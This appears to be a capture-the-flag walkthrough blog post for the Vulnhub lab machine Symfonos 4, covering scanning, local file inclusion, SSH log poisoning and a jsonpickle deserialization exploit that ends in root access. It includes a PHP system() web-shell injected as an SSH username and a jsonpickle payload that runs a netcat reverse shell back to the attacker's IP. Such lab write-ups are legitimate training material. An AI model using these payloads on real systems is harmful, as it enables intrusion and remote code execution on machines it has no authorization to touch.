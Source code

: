 ```yaml
---
title:     "Vulnhub - Symfonos 4"
tags: [medium,port_forward,log-poisoning,mysql]
---
```


Today, We are going to pwn Symfonos 4 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach people the importance of trying harder.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-4,347/>

Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8C:D3:8B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

## HTTP:

Normal webpage with an image like always.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/1.png)

Since there is no other interesting Ports Open, I started Gobuster on the webpage.

Gobuster Results:
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.1.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html
[+] Timeout:        10s
===============================================================
2020/03/12 19:39:13 Starting gobuster
===============================================================
/index.html (Status: 200)
/css (Status: 301)
/manual (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/sea.php (Status: 302)
/atlantis.php (Status: 200)
/server-status (Status: 403)
/gods (Status: 301)
===============================================================
2020/03/12 19:41:23 Finished
===============================================================
```

``/gods``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/2.png)

Downloaded all log files to my machine.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/3.png)

``hades.log``

>Hades was the god of the underworld and the name eventually came to also describe the home of the dead as well. He was the oldest male child of Cronus and Rhea. Hades and his brothers Zeus and Poseidon defeated their father and the Titans to end their reign, claiming rulership over the cosmos.

``poseidon.log``

>Poseidon was the god of the sea, earthquakes and horses. Although he was officially one of the supreme gods of Mount Olympus, he spent most of his time in his watery domain. Poseidon was brother to Zeus and Hades. These three gods divided up creation.

``zeus.log``

>Zeus is the god of the sky, lightning and thunder in Ancient Greek religion and myth, and king of the gods on Mount Olympus. Zeus is the sixth child of Kronos and Rhea, king and queen of the Titans.

``/atlantis.php``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/4.png)

``/sea.php``

Whenever I open ``/sea.php`` it redirects to ``/atlantis.php``. Lets capture the request in burp.

``302 Found`` which is redirection, We can stop a redirection using burp.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/5.png)

All we need to do is change ``302 Found`` to ``200 Ok`` For that open ``Proxy -> Options -> Match and Replace``.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/6.png)

Now If I visit ``/sea.php`` it displays a new page.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/7.png)

So If I select a GOD the url changes to ``/sea.php?file=hades`` maybe Local File Inclusion.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/8.png)

But I can't view ``/etc/passwd`` so I searched for any log files and I got ``/var/log/auth`` We dont need to represent ``.log`` because we already saw those ``poseidon.log, zeus.log and hades.log`` in ``/gods`` with extension but in ``/sea.php`` it shows the same file even without the extensions.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/9.png)

When seeing those Log files it shows ``OpenSSH`` so we can do ``SSH Log Poisoning``

Reference :
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

```ssh '<?php system($_GET['c']); ?>'@192.168.1.136```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/10.png)

Now its injected, Time to get reverse shell.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/11.png)

When checking ``/var/www/html/atlantis.php`` found ``mysql`` credentials.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/12.png)

``root : yVzyRGw3cG2Uyt2r``

I logged with those and got admin hash.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/13.png)

MySql Commands 
> http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm

I tried cracking the hash but I can't. So I skipped that and started looking for other things.

I started looking around in the directories and found ``/opt/code`` I found a python code. I came to know its ``jsonpickle`` so it may be running on the background.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/55.png)

Uploaded My Enumeration Script and Found this 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/14.png)

> - Port 3306 - MySQL
> - Port 8080 - Webpage (Maybe)

We can’t see port ``8080`` directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

I used ``socat`` method for port forwarding. We can also use ``SSH`` interactive shell for port forwarding too.
>https://www.cyberciti.biz/faq/linux-unix-tcp-port-forwarding/

>socat TCP-LISTEN:8081,fork TCP:127.0.0.1:8080

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/15.png)

Now I can visit ``http://192.168.1.136:8081``, It displays this page 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/16.png)

When I click the Main page it directs to 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/17.png)

But ``192.168.1.136:8081/whoami`` is suspecious, So I intercept the request in Burp 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/18.png)

``username`` looks like base64encoded so I decoded that 

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/19.png)

So this is the thing we saw in ``/opt/code``

Later I found this [article](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)

So I did some changes in the string and encoded this to base64.

> {"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["/usr/bin/nc -e /bin/bash 192.168.1.103 1234"]}, null, null, null]}

Gave that base64 encoded to ``username`` and started my Listener and got shell.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/20.png)

I'm Root!!

!![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/symfonos4/21.png)